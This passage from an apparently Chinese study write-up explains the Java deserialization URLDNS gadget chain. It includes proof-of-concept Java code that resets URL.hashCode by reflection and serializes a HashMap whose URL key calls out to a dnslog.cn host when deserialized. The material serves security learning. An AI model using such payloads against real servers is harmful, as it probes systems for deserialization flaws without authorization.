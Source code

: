```java
    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}

```

果然不会再触发了：

![image-20210813152432321]([Java反序列化]URLDNS链学习.assets/image-20210813152432321.png)





接下来就写序列化和反序列化了。先考虑一下需要注意的细节。整个Gadget可以实现，需要的条件说白了就是这个：

**那个`key`，即`URL`类的对象的`hashCode`属性值为-1**

考虑到最开始调用`put()`，虽然没有触发`URLDNS`，但是同样调用了`hash()`，导致了传入的`URL`类对象的哈希值被计算了一次，`hashCode`不再是`-1`了，因此还需要再修改它的`hashCode`属性。但是注意这个属性是`private`：

```java
    private int hashCode = -1;
```

因此只能用反射：

```java
        //Reflection
        Class clazz = Class.forName("java.net.URL");
        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u,-1);
```



整体的代码：

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.*;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        HashMap ht = new HashMap();
        String url = "http://urld86.dnslog.cn/";
        URLStreamHandler handler = new TestURLStreamHandler();
        URL u = new URL(null,url,handler);
        ht.put(u,url);

        //Reflection
        Class clazz = Class.forName("java.net.URL");
        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u,-1);

        byte[] bytes = serialize(ht);
        unserialize(bytes);

    }
    public static byte[] serialize(Object o) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(bout);
        oout.writeObject(o);
        byte[] bytes = bout.toByteArray();
        oout.close();
        bout.close();
```